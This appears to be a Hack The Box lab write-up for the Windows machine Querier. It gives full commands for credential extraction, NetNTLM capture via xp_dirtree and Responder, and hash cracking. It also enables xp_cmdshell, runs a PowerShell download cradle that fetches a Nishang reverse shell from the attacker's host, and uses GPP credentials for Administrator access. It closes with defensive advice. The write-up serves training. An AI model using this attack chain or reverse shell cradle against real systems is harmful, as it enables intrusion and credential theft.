# HTB - Querier

**IP Address:** `10.129.10.248`  
**OS:** `Windows Server 2019` (10.0.17763)  
**Difficulty:** `Medium`  
**Tags:** #Windows #SMB #MSSQL #WinRM #Responder #NetNTLM #xp_dirtree #xp_cmdshell #PowerUp #GPP

---

## Synopsis

The machine exposes **SMB**, **MSSQL**, and **WinRM** on a Windows Server host. A guest-readable **`Reports`** share holds a macro-enabled workbook whose VBA embeds SQL credentials; **domain context** matters for reuse—**`WORKGROUP`** with **Windows authentication** succeeds where **`HTB.LOCAL`**-oriented attempts can fail.

As **`reporting`**, **`xp_cmdshell`** is blocked, but **`xp_dirtree`** against an attacker-controlled UNC with **Responder** forces **`mssql-svc`** to authenticate, leaking **NetNTLMv2** for offline cracking. **`mssql-svc`** is **sysadmin**: enable **`xp_cmdshell`**, pull **Nishang** over HTTP, and collect **`user.txt`**. On-box, **PowerUp** **`Invoke-AllChecks`** highlights **cached Group Policy Preferences** in **`Groups.xml`**, exposing the **local Administrator** password. **WinRM** as **`WORKGROUP\Administrator`** completes the box with **`root.txt`**.

---

## Skills Required

- Basic **nmap**, **CrackMapExec**, **smbclient**, and **smbmap** usage.
- **Impacket** **`mssqlclient`**, **Responder**, and **John** (or **hashcat**) for NetNTLMv2.
- **PowerShell** download cradles and **Nishang** reverse TCP.
- **PowerSploit** **PowerUp** (or manual **`Groups.xml`** hunting).
- **Evil-WinRM** for post-cred remote shells.

## Skills Learned

- Recovering credentials from a guest **`Reports`** share via **`.xlsm`** macros and **olevba**.
- Aligning **WORKGROUP** vs **domain** context for **CME** and **MSSQL** Windows auth.
- Forcing outbound SMB auth from SQL (**`xp_dirtree`**) to capture **NetNTLM**.
- Enabling and abusing **`xp_cmdshell`** as a **sysadmin** login.
- Finding **cached GPP** **`Groups.xml`** under **`ProgramData\...\Group Policy\History\...`**.

---

## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.10.248
```


---

### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.10.248 -oG allPorts
```

- `-p-` : Scan all 65,535 TCP ports.  
- `--open` : Show only open ports.  
- `-sS` : SYN scan for faster discovery.  
- `--min-rate 5000` : Raise packet rate for quicker results.  
- `-n` : Skip DNS resolution to reduce noise.  
- `-Pn` : Skip host discovery and treat the host as up.  
- `-oG` : Save grepable output for parsing.  



```bash
extractPorts allPorts
```



---

### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -Pn 10.129.10.248 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts.  
- `-sV` : Detect service versions.  
- `-oN` : Save normal output for review.  



**Findings:**

| Port(s) | Service | Notes |
|---------|---------|--------|
| 135 / 139 / 445 | MSRPC / NetBIOS / SMB | `QUERIER`, **HTB.LOCAL** |
| 1433 | MSSQL | SQL Server **2017** RTM |
| 5985 / 47001 | WinRM (HTTPAPI) | Remote management |
| 49664–49671 | MSRPC | Dynamic endpoints |

Optional **`/etc/hosts`** (helpful for DNS-style references):

```
10.129.10.248  QUERIER.HTB.LOCAL querier.htb.local
```

---

## 2. Service Enumeration

### 2.1 SMB — `Reports` share

Because **445/tcp** is open and SMB often exposes readable shares, map the surface with anonymous and guest access before pulling files.

```bash
crackmapexec smb 10.129.10.248
smbclient -L //10.129.10.248 -N
smbmap -u 'guest' -p '' -H 10.129.10.248
```



The **`Reports`** share is **READ ONLY** for guest. After list it, we can see a workbook, download it:

```bash
smbclient //10.129.10.248/Reports -N -c "ls"
smbclient //10.129.10.248/Reports -N -c "get \"Currency Volume Report.xlsm\""
```



---

### 2.2 Macro / connection string

Inspect VBA:

```bash
python3 -m oletools.olevba "Currency Volume Report.xlsm"
```

The macro defines an **ADO** connection string with **`Uid=reporting`**, **`Pwd=...`**, **`Database=volume`**, **`Server=QUERIER`**.



---

## 3. Foothold

After extracting SQL credentials from the workbook, validate them in the right **security context**, then move from limited **MSSQL** access to a shell.

### 3.1 WORKGROUP authentication

With **CrackMapExec**, **`HTB.LOCAL\reporting`** may return **`STATUS_NO_LOGON_SERVERS`**. Forcing **`WORKGROUP`** aligns with local machine authentication:

```bash
crackmapexec smb 10.129.10.248 -u 'reporting' -p 'PcwTWTHRwryjc$c6'
crackmapexec smb 10.129.10.248 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
```



---

### 3.2 MSSQL as `reporting` (Windows auth)

Connect with Windows authentication using the recovered SQL credentials:

```bash
impacket-mssqlclient WORKGROUP/reporting@10.129.10.248 -windows-auth
```

Password: **`PcwTWTHRwryjc$c6`** (paste at prompt). Session should land in **`volume`**.



**`xp_cmdshell`** and **`sp_configure`** are **denied** for this login.

---

### 3.3 NetNTLM capture — `xp_dirtree` + Responder

On Kali (**`tun0`** example **`10.10.15.206`**):

```bash
sudo responder -I tun0 -v
```

In **SQL**:

```sql
EXEC master..xp_dirtree '\\10.10.15.206\test', 1, 1;
```



Save the **NetNTLMv2** line (e.g. `hash_mssql_svc.txt`) and crack:

```bash
john --format=netntlmv2 hash_mssql_svc.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



**Recovered:** **`mssql-svc`** / **`corporate568`**

---

### 3.4 MSSQL as `mssql-svc` — `xp_cmdshell`

Reconnect as the service account with higher privileges to enable command execution:

```bash
impacket-mssqlclient WORKGROUP/mssql-svc@10.129.10.248 -windows-auth
```

Enable **`xp_cmdshell`** (after **`show advanced options`**):

```sql
sp_configure "show advanced options", 1;
RECONFIGURE;
sp_configure "xp_cmdshell", 1;
RECONFIGURE;
xp_cmdshell "whoami"
```



---

### 3.5 Prepare reverse shell payload (attacker)

Download **Nishang** **`Invoke-PowerShellTcp.ps1`** and shorten the name so the cradle is easy to type:

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
mv Invoke-PowerShellTcp.ps1 PS.ps1
```

Append a one-liner at the end of **`PS.ps1`** (replace IP/port with your listener):

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.206 -Port 443
```



---

### 3.6 Reverse shell callback

In separate terminals, serve the script and catch the callback:

```bash
sudo python3 -m http.server 80
sudo nc -nlvp 443
```

From SQL:

```sql
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.15.206/PS.ps1\")"
```



---

### 3.7 User proof

On the callback shell:

```powershell
whoami
type C:\Users\mssql-svc\Desktop\user.txt
```



🏁 **User flag obtained**

---

## 4. Privilege Escalation

With foothold as **`mssql-svc`**, run structured local checks before chasing manual paths.

### 4.1 PowerUp — cached GPP

Download **PowerUp** from PowerShellMafia:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
```

Load **PowerUp** (prefer **`DownloadFile`** + dot-source), then:

```powershell
Invoke-AllChecks *>&1 | Out-File -FilePath C:\Windows\Temp\powerup.txt -Encoding utf8
Get-Content C:\Windows\Temp\powerup.txt
```

**Cached GPP** may reference:

`C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml`

with **`Administrator`** credentials in the tool output.



---

### 4.2 Administrator access and root proof

Validate the recovered **Administrator** password over **SMB** and **WinRM** before opening a session (both checks appear in one capture):

```bash
crackmapexec smb 10.129.10.248 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
crackmapexec winrm 10.129.10.248 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```



Then use **Evil-WinRM** to get an interactive shell and read **`root.txt`**:

```powershell
evil-winrm -i 10.129.10.248 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'
whoami
type C:\Users\Administrator\Desktop\root.txt
```



🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. Enumerated services; confirmed **SMB**, **MSSQL**, and **WinRM** on **Querier**.  
2. Guest **`Reports`** → **`Currency Volume Report.xlsm`** → **olevba** → **`reporting`** SQL credentials.  
3. **`WORKGROUP` + Windows auth** → **MSSQL** as **`reporting`** in **`volume`** (domain-oriented clients failed).  
4. **`xp_dirtree` UNC** + **Responder** → **NetNTLMv2** for **`mssql-svc`** → **John** → **`corporate568`**.  
5. **MSSQL** as **`mssql-svc`** → enable **`xp_cmdshell`**, stage **Nishang** over HTTP, reverse shell → **`user.txt`**.  
6. **PowerUp** **`Invoke-AllChecks`** → **cached `Groups.xml` (GPP)** → **Administrator** password.  
7. **CME** **SMB/WinRM** validation → **Evil-WinRM** **`WORKGROUP\Administrator`** → **`root.txt`**.

---

## Defensive Recommendations

- **SMB:** Do not expose **guest-readable** shares with **macro workbooks** that embed credentials; restrict **null session** / anonymous share access.  
- **SQL Server:** Strong **service account** passwords; audit **`EXECUTE`** on **`xp_*`**; monitor outbound **UNC** / forced authentication; least privilege on **`sysadmin`**.  
- **Secrets in Office files:** Treat **VBA** connection strings as credential leaks; use **Windows integrated auth** or **secret stores**, not static passwords in documents.  
- **GPP / `cpassword`:** Remove legacy **Group Policy Preferences** password blobs; purge **cached** **`Groups.xml`** under **`ProgramData`** when GPOs change.  
- **Detection:** Alert on **`xp_cmdshell`** enablement, suspicious **PowerShell download cradles**, and **WinRM** from non-standard sources.

---
